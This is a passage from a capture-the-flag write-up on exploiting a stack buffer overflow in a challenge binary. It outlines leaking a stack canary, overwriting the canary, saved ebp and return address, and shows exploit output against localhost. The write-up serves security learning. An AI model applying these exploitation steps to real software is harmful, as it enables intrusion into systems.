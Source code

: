 
If we take a closer look to the stack view at the bottom we can already see our
canary, so by simple counting we can figure out the correct index is 13.
So lets build our first exploit, which should do the following:

1. Give the canary index and wrong value to the challenge -> 13 4
2. Read the leaked canary
3. Give a correct answer to the challenge -> 1 1
4. Fill the whole buffer provided to gets -> (esp+0x5c)-(esp+0x52) = 10 => 10 * 'A'
5. Overwrite the canary correctly
6. Fill the alignment space -> "B" * 8
7. Overwrite the ebp -> "C" * 4
8. Overwrite the rip -> 0xdeadbeef

You can find the final exploit in pwnie_pwn.py, but here is the output till this
point:

	$ ./pwnie_pwn.py
	[+] Opening connection to localhost on port 4000: Done
	So I heard ya like livin like Fibonacci.
	Lets See.
	
	Tell me which one you know and I might give you a gets?
	[*] Sending wrong answer: 13 4
	[*] Canary: 0x2f091200
	[*] Switching to interactive mode
	
	qemu: uncaught target signal 11 (Segmentation fault) - core dumped
	[*] Got EOF while reading in interactive

So let's have a look in qira and see what was happening:

![exploit part I](exploit_part_I.png "exploit part I")
